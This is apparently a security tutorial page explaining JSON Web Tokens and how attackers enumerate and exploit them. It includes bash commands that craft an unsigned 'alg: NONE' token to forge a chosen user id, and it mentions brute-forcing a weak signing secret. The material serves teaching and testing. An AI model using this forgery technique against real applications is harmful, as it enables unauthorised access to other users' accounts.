 *Json Web Tokens (JWT)* are a type of token used for user *authentication* and *authorization* in web applications. JWT is an open standard (*RFC 7519*) that defines a compact and secure format to reliably transmit information between different parties.

Regarding the enumeration and exploitation phase of a JWT, this occurs when an attacker is able to obtain information about the JWTs used in the application, which could allow the attacker to exploit weaknesses in the authentication and authorization of the application.

JWT enumeration occurs when an attacker uses brute force techniques or some reverse engineering to obtain information about the JWTs used by the web application. For example, the attacker might try to guess the values of the JWTs by constructing *fake tokens*, trying to validate at all times whether the web application accepts them or not. If the attacker succeeds in enumerating a valid JWT, he could obtain sensitive information, such as usernames, passwords, user roles and other authentication and authorization data.

JWT exploitation occurs when an attacker uses the information obtained from JWT enumeration to exploit weaknesses in the application. For example, if the web application uses JWTs for authentication, but does not properly validate the JWT *signature*, an attacker could forge the token and access the web application as if it were a legitimate user.

To prevent JWT enumeration and exploitation, it is important to use secure web development practices, such as proper validation of input requests, secure management of JWT signing keys, and limiting the expiration time of JWTs.

----
>  With the website [jwt.io](https://jwt.io/) we can check and manipulate the *JWTs*.
----

 This is an example from *JWT*:
 
```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwidXNlciI6Imxva2kifQ.bAAK2dV22bEskWifS2T9Uxx4_tFK1HbcWOVSs-5sdIk

# Header: algorithm and token type encoded in base64
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9

# Payload: data encoded in base64
eyJpZCI6MiwidXNlciI6Imxva2kifQ

# Verify signature
bAAK2dV22bEskWifS2T9Uxx4_tFK1HbcWOVSs-5sdIk
```

Sometimes some *JWTs* accept *None* as an *algorithm* so the *signature* part is *not necessary*.

To generate a new *JWT* with *None* as algorithm we can do it from the console:

```bash
# Header
echo -n '{"alg": "NONE", "typ": "JWT"}' | base64

# Header result
eyJhbGciOiAiTk9ORSIsICJ0eXAiOiAiSldUIn0=

# Payload
echo -n '{"id": 2, "user": "loki"}' | base64

# Payload result
eyJpZCI6IDIsICJ1c2VyIjogImxva2kifQ==
```

----
> Before continuing we must omit the *equal* symbols and the *spaces* at the end of the generated *base64* strings.
----

Now we can join the *header* and the *payload* separated by *dots* and if the *JWT* supports *None* as algorithm, it will allow us to modify values such as the *id* and generate new valid *JWTs* without the need of *verification*:

```
eyJhbGciOiAiTk9ORSIsICJ0eXAiOiAiSldUIn0.eyJpZCI6IDIsICJ1c2VyIjogImxva2kifQ.
```

However, even if there is an *algorithm* and if it is *weak* (in this case *mySecret*) we can try to break it with *brute force* with a typical dictionary.